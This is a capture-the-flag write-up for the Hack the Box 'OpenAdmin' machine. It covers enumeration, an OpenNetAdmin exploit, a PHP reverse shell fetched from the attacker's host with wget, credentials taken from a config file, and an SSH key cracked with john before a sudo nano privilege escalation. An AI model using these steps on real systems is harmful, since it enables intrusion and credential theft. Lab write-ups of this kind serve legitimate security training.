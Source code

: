 ![OpenAdmin](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/openadmin.jpg)
\
## Enumeration
\
Start off with a detailed nmap scan:

\
![nmap](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nmap.png)

\
Next lets navigate to the webserver in our browser to verify that this in fact the apache default page:
```
http://10.10.10.171/
```
As expexted we get the apache default page.  Let's enumerate futher using gobuster:
```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x html,php,txt,asp,aspx -u http://10.10.10.171
```

\
![gobuster](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/gobuster.png)

\  
Let's look at the music page:

\
![music](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/music.png)

\
I clicked 'login' and it sent me to this page http://10.10.10.171/ona/:

\
![ona](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona.png)

\
Looks like the web appliaction that is running is out of date.  Now click the "ONA" and "About":

\
![about](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona_about.png)

\
Lets see if there are any vulnerabilities for OpenNetAdmin (ONA):

\
![searchsploit](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/searchsploit.png)

\
## Initial Foothold
\
After looking at the proof of concept found in exploitdb, we just need to edit the URL to point to the ONA web application:

![poc](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/poc.png)
\
Execute the bash script with the changes and we get a limited shell on the machine:

![shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/shell.png)
\
We are dropped in the /opt/www/ona directory, which is the root for ONA
\
## Pivoting to User 1
\
We cannot spawn a tty shell from here, so lets see if we can upload and execute a php-reverse-shell using the following commands:
```
# on our attacking machine
python -m SimpleHTTPServer

# on the target
wget http://10.10.14.152:8000/php-reverse-shell.php

# on either machine, ensure that you have a netcat listener before executing this
curl http://10.10.10.171/ona/php-reverse-shell.php
```

![phpshell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/phpshell.png)
\
I tried to access the user.txt file in the home directories of both users but was denied:

![userdeny](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userdeny.png)
\
After looking through the /var/www/ona directory (linked to /opt/ona/www), I found a database configuration file with a password:

![dbfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/dbfile.png)
\
Lets try to ssh with the credentials jimmy:n1nj4W4rri0R!:

![jimmy_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyshell.png)
\
## Pivoting to User 2
\
Success!  But there is no user.txt file in jimmy's home directory:

![jimmyhome](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyhome.png)
\
Jimmy cannot sudo on this device or access joanna's home directory.  Looking through the webroot /var/www I found an interesting directory called internal:

![internal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/internal.png)
\
Let's look at main.php:

![main](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/main.png)
\
So if we connect to this webserver, we should receive the private key (id_rsa) for joanna which we can then use to login.  Lets see if the we are listening on port 80:

![netstat](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/netstat.png)
\
The target is not listening on port 80, but is listening on port 52846, so lets try to connect to that to retrieve the private key:

```
curl http://127.0.0.1:52846/main.php
```
![rsa](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rsa.png)
\
We got the private key, but the message from main.php indicates that this private key is password protected, so we will need to use ssh2john (link) and john to crack the password:

Generate a crackable hash with ssh2john:

```
python /usr/share/john/ssh2john.py id_rsa > crack.txt
```
Now crack it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```
![john](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/john.png)
\
The password for id_rsa is bloodninjas, which goes along with the hint of "ninja" password we saw in the id_rsa.  Now lets try to login as joanna using the private key:

![joanna_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/joannashell.png)
\
## User File 
\

![userfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userfile.png)

## Privilege Escalation
\
Start by checking if joanna is allowed to run any commands with sudo:

![sudol](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/sudol.png)
\
Looks like we can open the file priv using nano with root privilieges:
```
Sudo /bin/nano /opt/priv 
```
There is a native ability in nano to read (CTRL+R) any file in the file system that you specify.  Lets try to read the root.txt file:

![nanoroot](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nanoroot.png)
\
## Root File 
\
![rootfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rootfile.png)
